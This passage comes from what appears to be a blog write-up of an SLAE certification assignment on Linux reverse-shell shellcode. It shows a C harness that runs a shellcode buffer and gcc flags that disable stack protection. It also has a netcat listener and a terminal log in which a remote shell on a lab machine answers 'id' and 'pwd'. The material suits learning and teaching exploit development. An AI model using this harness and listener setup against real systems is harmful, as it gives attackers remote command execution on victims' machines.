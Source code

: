 ```c
	int (*ret)() = (int(*)())code;

	ret();

}
```

## Final Testing

I set up a netcat listener on my Kali machine at 192.168.1.188 and then compiled the shellcode.c program with `gcc -fno-stack-protector -z execstack -m32 shellcode.c -o rev_shell` and ran `./rev_shell`

```terminal_session
SLAE@ubuntu:~/SLAE/Exam$ ./rev_shell
Shellcode Length:  99
```

```terminal_session
root@kali:~/petprojects# nc -lvp 1234
listening on [any] 1234 ...
192.168.1.192: inverse host lookup failed: Unknown host
connect to [192.168.1.188] from (UNKNOWN) [192.168.1.192] 57324
id
uid=1000(SLAE) gid=1000(SLAE) groups=1000(SLAE),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
pwd
/home/SLAE/SLAE/Exam
```

It works!!

## Github Repo 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1458

You can find all of the code used in this blog post [here.](https://github.com/h0mbre/SLAE/tree/master/Assignment2)

